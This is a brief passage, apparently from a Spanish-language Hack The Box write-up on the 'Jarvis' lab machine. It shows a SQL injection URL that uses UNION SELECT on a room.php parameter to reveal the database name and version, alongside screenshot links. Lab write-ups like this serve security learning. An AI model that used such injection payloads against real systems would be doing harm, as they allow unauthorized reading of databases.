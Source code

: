 ![asd](/assets/htb/jarvis/unionselect.png ) 

Como podemos ver los 1,2,3,4,5 se imprimen en los datos para reservar habitación <br>
[http://10.10.10.143/room.php?cod=0%20UNION%20SELECT%201,Database(),3,4,Version(),6,7](http://10.10.10.143/room.php?cod=0%20UNION%20SELECT%201,Database(),3,4,Version(),6,7).


![asd](/assets/htb/jarvis/info.png ) 

